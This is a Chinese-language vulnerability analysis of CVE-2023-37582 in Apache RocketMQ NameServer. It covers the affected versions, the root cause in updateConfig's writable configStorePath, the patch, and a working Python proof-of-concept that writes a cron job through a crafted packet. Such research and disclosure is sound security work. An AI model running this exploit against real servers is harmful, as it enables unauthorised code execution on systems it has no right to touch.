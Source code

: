 - [CVE-2023-37582 Apache RocketMQ 远程代码执行漏洞](#cve-2023-37582-apache-rocketmq-远程代码执行漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [DefaultRequestProcessor#updateConfig](#defaultrequestprocessorupdateconfig)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-37582 Apache RocketMQ 远程代码执行漏洞
## 影响版本
Apache RocketMQ NameServer 5.0.0 ～ 5.1.1  
Apache RocketMQ NameServer 4.0.0 ～ 4.9.6
## 环境搭建
https://archive.apache.org/dist/rocketmq/5.1.0/rocketmq-all-5.1.0-bin-release.zip
## 原理分析
原理和CVE-2023-33246类似,这次是发生在NameServer上,也是在远程更新配置的时候,因为之前的漏洞导致Filter被删除了,所以无法直接执行命令,但可以通过覆盖原来配置中的配置文件路径,然后配置的内容也可控,这就可以任意文件写入的方式通过写计划任务的方式进行RCE.  
### DefaultRequestProcessor#updateConfig
当请求的code为318时就会进入updateConfig方法.  
![](2023-08-01-15-43-50.png)   
处理过程也是类似的,将请求body中的字符串转为properties键值对象,然后就进入Configuration开始更新配置了.    
![](2023-08-01-15-45-20.png)    
在update中的操作則是将传入的配置和已有的进行合并最后会调用persist()将配置写入到文件中.  
![](2023-08-01-15-55-45.png)   
![](2023-08-01-15-58-19.png)  
而关键就在于这个写入的文件路径也是从配置中的`configStorePath`属性得到的,所以可以对该属性进行修改导致任意文件写入.  
## 漏洞复现  
```python
import socket
import binascii
client = socket.socket()
client.connect(('192.168.18.25',9876))

# data
json = '{"code":318,"extFields":{"AccessKey":"RockedtMQ","topic":"%RETRY%please_rename_unique_group_name_5","Signature":"yK5YWMVD1a90Fb++YDrHV9n+JMs="},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='configStorePath=/var/spool/cron/root\nproductEnvName=123\\n*/1 * * * * echo 2 > /tmp/poc.txt'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')

# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```
## 补丁  
和CVE-2023-33246的类似,把控制配置文件路径的configStorePath加入黑名单,不允许远程修改.  
![](2023-08-01-16-04-11.png)  
## 参考
https://xz.aliyun.com/t/12691